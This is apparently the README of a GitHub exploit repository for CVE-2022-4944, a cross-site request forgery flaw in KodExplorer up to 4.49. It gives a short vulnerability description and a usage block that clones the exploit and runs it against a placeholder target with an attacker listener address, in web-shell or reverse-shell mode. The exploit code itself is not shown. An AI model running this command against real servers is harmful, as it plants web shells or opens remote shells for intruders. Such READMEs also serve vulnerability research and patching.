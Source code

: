 <h1 align="center">「💥」CVE-2022-4944</h1>

<p align="center"><img height="600" src="https://raw.githubusercontent.com/kalcaddle/static/master/images/kod/common2.png"></p>

## Description

A vulnerability, which was classified as problematic, was found in kalcaddle KodExplorer up to 4.49. This affects an unknown part. The manipulation leads to cross-site request forgery. This vulnerability is uniquely identified as CVE-2022-4944. It is possible to initiate the attack remotely. Furthermore, there is an exploit available. It is recommended to upgrade the affected component.

## Demo

![demo](demo.png)

## Usage

```
pip install requests
git clone https://github.com/MrEmpy/CVE-2022-4944.git
cd CVE-2022-4944
python3 CVE-2022-4944.py -u http://TARGET.TLD/KODExplorer -lh LOCALHOST -m MODE # webshell/reverse mode
```

## Reference

* https://vuldb.com/?id.227000
* https://www.cve.org/CVERecord?id=CVE-2022-4944
